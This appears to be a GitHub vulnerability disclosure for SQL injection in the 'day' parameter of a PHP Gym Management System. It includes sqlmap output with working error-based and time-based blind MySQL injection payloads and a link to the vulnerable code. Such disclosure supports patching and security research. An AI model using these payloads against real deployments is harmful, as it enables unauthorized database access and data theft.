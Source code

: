 # Gym-Management-System-Sqlinjection
## Sqlinjection location
After logging in to the background
The injection point is in DAY module
![image](https://user-images.githubusercontent.com/81155906/183282231-053aac77-e0c0-4346-be5a-7904b7a705ae.png)


#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/81155906/183282296-e45c4453-807c-4488-b892-2dc5a2109733.png)

```
GET parameter 'day' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 1138 HTTP(s) requests:
---
Parameter: day (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: day=5' AND (SELECT 4229 FROM(SELECT COUNT(*),CONCAT(0x7171767171,(SELECT (ELT(4229=4229,1))),0x716b787071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qlux

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: day=5' AND (SELECT 2288 FROM (SELECT(SLEEP(5)))nWwM)-- RfYv
---
[12:24:46] [INFO] the back-end DBMS is MySQL
web application technology: PHP, PHP 7.3.4, Apache 2.4.39
back-end DBMS: MySQL >= 5.0
```

## Code Download

https://www.sourcecodester.com/php/15515/gym-management-system-project-php.html

